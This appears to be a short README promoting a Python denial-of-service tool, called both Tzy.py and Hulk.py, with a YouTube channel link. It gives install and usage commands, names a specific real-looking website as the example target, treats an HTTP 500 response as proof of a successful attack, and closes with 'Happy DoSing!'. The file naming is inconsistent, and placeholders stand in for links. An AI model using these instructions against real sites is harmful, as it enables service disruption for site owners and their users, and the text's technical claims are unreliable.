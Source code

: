 Subscribe our channel FemurTech
Link:- https://youtube.com/c/PakTzy

This contains a file named Tzy.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-
pkg install python2
git clone "link"
chmod +x Tzy.py

Usage:- 
python2 Tzy.py "link"
Example:- python2 Tzy.py http://www.kalkaeducationalsociety.com
If the result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------

